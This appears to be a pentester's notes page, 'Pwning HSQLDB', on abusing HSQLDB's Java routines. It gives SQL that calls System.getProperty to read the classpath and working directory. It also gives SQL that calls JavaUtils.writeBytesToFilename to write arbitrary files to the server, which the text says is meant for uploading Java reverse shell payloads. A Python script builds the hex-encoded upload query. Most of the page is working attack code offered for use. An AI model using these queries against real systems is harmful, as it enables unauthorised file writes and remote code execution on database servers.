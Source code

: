 ```yaml
---
title: Pwning HSQLDB
tags:
  - advanced
  - web-app
  - pentesting
  - hsqldb
  - java
---
```


## What is HSQLDB?

[Hyper SQL Database (HSQLDB)](https://en.wikipedia.org/wiki/HSQLDB) is a relational database
management system written in Java - you might occasionally come across it. It's cross-platform,
lightweight, and has a bunch of great features like being able to call static Java methods in the
Java Runtime Environment's (JRE) class path. What's more to love?

## Calling Java Language Routines in HSQLDB

In HSQLDB,
[Java Language Routines (JRTs)](https://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines)
are SQL-Invoked Routines, i.e. functions or procedures, that call methods in the classpath of the
JRE. With JRTs, we can define these SQL functions and pass parameters to these methods invocations.
JRTs that invoke methods that return values are called _functions_. JRTs that invoke methods that
return _void_ are called _procedures_.

### Reconnaissance

So, I keep mentioning the classpath. What is it? Like `PATH`, it's a path of `JAR` files currently
loaded in the JRE of the HSQLDB instance. Like with
[[pwning-serialization|pwning Java serialization]], we need to know what gadgets, i.e. static
methods, are available for abuse. We can execute the following query in HSQLDB to create a function
that invokes the Java `getProperty` method, which we'll use to expose the contents of the classpath:

```sql
 CREATE FUNCTION GetSystemProperty(IN key VARCHAR) RETURNS VARCHAR
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

And the following query exposes the classpath:

```sql
VALUES(GetSystemProperty('java.class.path'))
```

Another useful query, the following query exposes the the current directory HSQLDB is executing
from:

```sql
VALUES(GetSystemProperty('user.dir'))
```

### Uploading files

The juicy stuff. We can create a procedure with the following HSQLDB query, using the
`JavaUtils.writeBytesToFilename` method to write a bytes object to a file. This enables us to do
great things like upload Java reverse shell payloads.

```sql
CREATE PROCEDURE WriteBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

The above procedure has two parameters, `paramString` which is the filename we wish to write to, and
`paramArrayOfByte` which is the byte array of our file we're going to upload. How do we use it? An
example invocation is provided below:

```sql
CALL WriteBytesToFilename('{DEST}', CAST('{PAYLOAD}' as VARBINARY(1024)))
```

Where `DEST` is where we want to write the file, and `PAYLOAD` is the file's contents in hex. "How
do I get the contents of my file in hex?", you say. The following Python script will convert a file
specified by `filepath` to the correct format and will generate a payload that uploads the file to
the specified `dest`:

```python
from argparse import ArgumentParser

WRITE_BYTES_TO_FILENAME_QUERY = """CALL WriteBytesToFilename('{dest}', CAST('{payload}' as VARBINARY(1024)))"""


class Solution:
    def __init__(self, filepath: str, dest: str) -> None:
        self.filepath, self.dest = filepath, dest

    def solve(self) -> None:
        payload = None
        with open(self.filepath, "rb") as file:
            payload = file.read().hex()

        print(WRITE_BYTES_TO_FILENAME_QUERY.format(dest=self.dest, payload=payload))


def main():
    parser = ArgumentParser()
    parser.add_argument("-f", "--filepath", dest="filepath")
    parser.add_argument("-d", "--dest", dest="dest")
    args = parser.parse_args()
    s = Solution(args.filepath, args.dest)
    s.solve()


if __name__ == "__main__":
    main()
```
